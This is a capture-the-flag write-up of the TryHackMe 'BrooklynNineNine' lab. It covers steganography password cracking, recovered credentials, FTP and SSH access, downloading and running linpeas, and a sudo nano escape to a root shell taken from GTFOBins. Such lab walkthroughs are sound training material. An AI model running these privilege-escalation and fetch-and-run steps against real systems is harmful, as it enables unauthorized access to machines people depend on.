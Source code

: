
Greetings everyone, today I would like to analyze `BrooklynNineNine` on TryHackMe platform. Actually, it was not so hard to deal with that machine because of my real-world test experiences. I recognized that I am now able to deal with more complicated reconnaissance on web applications. Therefore, I was comfortable to jump post-compromise part on this instance.

Let me add my `IPv4` address to `/etc/hosts` to avoid specifying the address in commands each time.


Open hosts file
nano /etc/hosts
[MACHINE-IP] brooklyn.thm
Save with C^R and exit C^X


![[TryHackMe/Brooklyn99/images/1.png]]

This how it looks like.

## Reconnaissance

First of all, I did not want to use browser to display `HTML` elements of the page. That's why, I decided to use `curl` to save time. Maybe we have a web app on port `80` or `443`

`curl -v brooklyn.thm`

As you can see below, there was a comment indicating the technique called `Steganography`

![[TryHackMe/Brooklyn99/images/2.png]]

`<!--- Have you ever heard of steganography? -->`

Let me extract the image from web application through my browser:

![[TryHackMe/Brooklyn99/images/3.png]]

I have tried a lot of `Steganography` tools from [here](https://0xrick.github.io/lists/stego/).

However, one of them worked well. How I understood `stegcracker` works is that I did not have any clues on many tools like `exiftool`, `foremost`, `steghide` and `zsteg`. Finally, `stegcracker` done it !

`Stegcracker` requires these parameters:

`stegcracker <file> [<wordlist>]`

For the `wordlist` part, I selected `rockyou` since we just need password list ,so I thought that `rockyou` basically includes passwords.

Full payload & result:
![[TryHackMe/Brooklyn99/images/4.png]]

Content of the output file named `brooklyn99.jpg.out`:
![[TryHackMe/Brooklyn99/images/5.png]]

Initially, I could not understand `Holts` then I conducted a `GPT` scan to understand who were `Holts`.

![[TryHackMe/Brooklyn99/images/6.png]]

Now, I understood that the `user:pass` combination `holts:fluffydog12@ninenine`

Finally, conducting port scan may reveal great findings about  architecture:

command:
`sudo nmap -sV -sC brooklyn.thm`

Results showed me that two significant services:
- SSH
- FTP

![[TryHackMe/Brooklyn99/images/7.png]]

I wanted to display the content of the `note_to_jake.txt`. You can reach the commands that I have run on `FTP` client.

![[TryHackMe/Brooklyn99/images/8.png]]

`note_to_joke.txt`:
![[TryHackMe/Brooklyn99/images/9.png]]

![[TryHackMe/Brooklyn99/images/12.png]]

It was not too precious information compared to `Holts user:pass`. Therefore, there was not any other ports that we can interact with machine. SSH was suitable to connect because I compromised `user:pass` combination.

![[TryHackMe/Brooklyn99/images/10.png]]

Gotcha ! ! !

### Manual Approach:
Next step should be what commands am I able to run:

![[TryHackMe/Brooklyn99/images/11.png]]

As you can see, user `holts` can run `nano` with `root` privileges.

### Automated Approach:
`linpeas.sh` is more automated approach for us to make deeper `OS analysis`.

Deploy local python server to send it to target.

![[TryHackMe/Brooklyn99/images/14.png]]

To understand whether we have other binaries allowing us to download like `wget`,`curl`.

Combine them
`which wget or curl`
`/usr/bin/wget`

By using `wget`, we can observe that downloading files through it possible !

![[TryHackMe/Brooklyn99/images/15.png]]

Give execution permission to `linpeas.sh`

`chmod +x linpeas.sh`

Run the script:
![[TryHackMe/Brooklyn99/images/18.png]]

Great findings about our target:

(we cannot run `less` because our user did not have sudo privileges for this binary)
![[TryHackMe/Brooklyn99/images/16.png]]
![[TryHackMe/Brooklyn99/images/17.png]]

## Exploitation

**Binary exploitation** can help in this scenario:

[GTFOBins](https://gtfobins.github.io/gtfobins/nano/) suggest that if binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges which means we cannot constantly escalate our privileges to root.

![[TryHackMe/Brooklyn99/images/20.png]]


run nano with sudo:
`sudo nano` (it will ask your user password)
`^R ^X` (control+R and control+X respectively)
`reset; sh 1>&0 2>&0`


![[TryHackMe/Brooklyn99/images/13.png]]

Flag located on `/root` path.
![[TryHackMe/Brooklyn99/images/19.png]]